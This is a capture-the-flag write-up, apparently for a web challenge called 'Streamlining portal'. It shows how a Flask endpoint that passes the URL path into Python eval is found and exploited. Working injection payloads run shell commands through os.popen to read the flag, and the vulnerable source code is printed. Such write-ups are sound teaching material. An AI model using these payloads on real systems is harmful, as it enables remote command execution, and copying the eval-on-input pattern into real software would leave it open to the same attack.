

# Streamlining portal

Hi, packet inspector,

the AI is preparing some kind of employee streamlining portal on http://user-info.mysterious-delivery.tcc. We fear this
will lead to more lost packages.

Your task is to break into the web and find interesting information on the server.

May the Packet be with you!

---

The portal is really simple



There is one path parameter (`/hello/{user}`) which is reflected back.

Inspecting HTTP response headers reveals that the server is using [Gunicorn](https://gunicorn.org/) which is a  **
Python** WSGI HTTP Server.

I started to fuzz the `/hello/{user}`. Sending `/hello/AAA"` provokes HTTP 500.
All other non-standard characters including `'` are handled correctly.

The next idea was to find a payload which would somehow got evaluated. Given this is Python, I tried to close the
quotes myself and comment out the rest of the original code:

```
hello/AAA"#
```

It works, `AAA` is returned. Great!

Let's take it one step further:

```
hello/AAA"+"B"*3#

> Hello AAABBB
```

Yep, code is getting evaluated. Go for command execution:

```
/hello/"+__import__('os').popen('id').read()#

> Hello uid=1000(challengeuser) gid=1000(challengeuser) groups=1000(challengeuser)
```

Now we need to find the flag. Using `ls` we can find the flag in `/app/FLAG`.

Finally, read the flag:

```
/hello/"+__import__('os').popen('cat /app/FLAG/flag.txt').read()#

> Hello FLAG{OONU-Pm7V-BK3s-YftK}
```

---

## Bonus: Reading the source code

Read `/app/app.py`:

```python
from flask import Flask, Blueprint, redirect, render_template

bp = Blueprint("app", __name__)


def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app


@bp.route('/hello/<path:userstring>')
def hello(userstring):
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message)


@bp.route('/')
def redirect_to_user():
    return redirect("/hello/user", code=302)
```